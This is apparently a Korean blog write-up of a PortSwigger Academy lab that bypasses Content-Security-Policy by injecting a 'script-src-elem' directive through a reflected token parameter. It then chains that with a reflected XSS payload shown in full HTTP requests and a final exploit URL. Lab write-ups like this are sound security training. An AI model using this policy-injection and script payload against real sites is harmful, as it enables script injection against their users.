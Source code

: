 ```yaml
---
layout: post
title: "Burp Academy-XSS 취약점: Reflected XSS protected by CSP, with CSP bypass"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XSS취약점]
toc: true
last_modified_at: 2025-05-02 21:30:00 +0900
---
```


# 개요
- 취약점 설명 주소: https://portswigger.net/web-security/cross-site-scripting/content-security-policy
- 랩 주소: https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass
- PortSwigger Research(Policy injection으로 CSP 우회하기): https://portswigger.net/research/bypassing-csp-with-policy-injection
- 난이도: EXPERT (어려움)

# 취약점 개요: Policy Injection을 통한 CSP 우회
CSP 헤더에 사용자의 입력이 반영되는 웹사이트를 볼 수 있는 경우가 있다. 이는 대개 `report-uri` 지시어에 반영되는 형태로 나타난다. 해당 웹사이트가 사용자가 제어할 수 있는 매개변수를 반영하는 경우, 세미콜론을 삽입하여 자체 CSP 지시어를 추가할 수 있다. 일반적으로 이 `report-uri` 지시어는 CSP헤더 목록의 마지막에 있다. 이는 이 취약점을 악용하여 정책을 우회하려면 기존 지시어를 덮어써야 한다는 것을 의미한다.

일반적으로 이미 존재하는 `script-src` 지시어를 덮어쓸 수는 없다. 하지만 Chrome에서 최근 `script-src-elem` 지시어를 도입했는데, 이 지시어를 사용하면 `script` 요소를 제어할 수 있고, 이벤트는 제어할 수 없다. 중요한 것은 이 새로운 지시어를 통해 이미 존재하는  `script-src` 지시어를 덮어쓸 수 있다는 점 이다. 

# 랩 개요 
- 이 랩은 CSP 헤더를 사용하고 있고, 반사형 XSS취약점이 존재한다. 
- 랩을 풀려면 XSS공격을 수행해서 CSP를 우회하고 alert함수를 실행시킨다.  
- 랩에서 의도한 해답은 크롬에서만 실행된다는 것에 주의하자. 

```
This lab uses CSP and contains a reflected XSS vulnerability.

To solve the lab, perform a cross-site scripting attack that bypasses the CSP and calls the alert function.

Please note that the intended solution to this lab is only possible in Chrome.
```

# 풀이 
1. 일단 랩을 살펴본다. 랩 서버의 응답에 다음과 같은 헤더가 포함된 것을 볼 수 있다. report-uri 헤더에 
'/csp-report?token=' 라는 값이 지정되어 있다. 

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
X-Frame-Options: SAMEORIGIN
Content-Length: 5551

```

2. GET 요청에 token 파라메터를 추가해서 요청을 보내보면 파라메터에 지정한 값이 HTTP응답에 반영되는 것을 알 수 있다. 

```http
GET /?search=test_string&token=TESTTEST; HTTP/2
Host: 0a68000104c4343182cbd88600f0006c.web-security-academy.net
Cookie: session=86jmpddO0QNahOsU1SC25Pf99Gos3Y47
...

```

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=TESTTEST
X-Frame-Options: SAMEORIGIN
Content-Length: 3157

```

3. CSP헤더는 세미콜론으로 구분된다. 따라서 세미콜론을 삽입할 수 있다면 CSP헤더 삽입이 가능할 것이다. 테스트해보면 세미콜론을 삽입가능한 것을 알 수 있다. CSP 헤더 `script-src-elem 'unsafe-inline'` 를 삽입하면 CSP를 헤더를 사실상 무효화시킬 수 있을 것이다. 시도해보니 가능했다. 

```http
GET /?search=test_string&token=TESTTEST;script-src-elem%20'unsafe-inline' HTTP/2
Host: 0a68000104c4343182cbd88600f0006c.web-security-academy.net
Cookie: session=86jmpddO0QNahOsU1SC25Pf99Gos3Y47
```

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=TESTTEST;script-src-elem 'unsafe-inline'
X-Frame-Options: SAMEORIGIN
Content-Length: 3157
```

4. 그러면 이제 반사형 XSS가 있는 곳만 찾으면 된다. 검색창에서 XSS가 가능한 것을 알아냈다. 

![](/images/burp-academy-xss-31-1.png)

5. 그러면 이제 찾은 취약점들을 조합한다. 다음 URL로 접근하면 alert창이 뜨는 것을 알 수 있다. 

```
https://0a68000104c4343182cbd88600f0006c.web-security-academy.net/?search=%22%2F%3E%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E&token=TESTTEST;script-src-elem%20%27unsafe-inline%27
```

6. 랩이 풀렸다. 

![](/images/burp-academy-xss-31-success.png)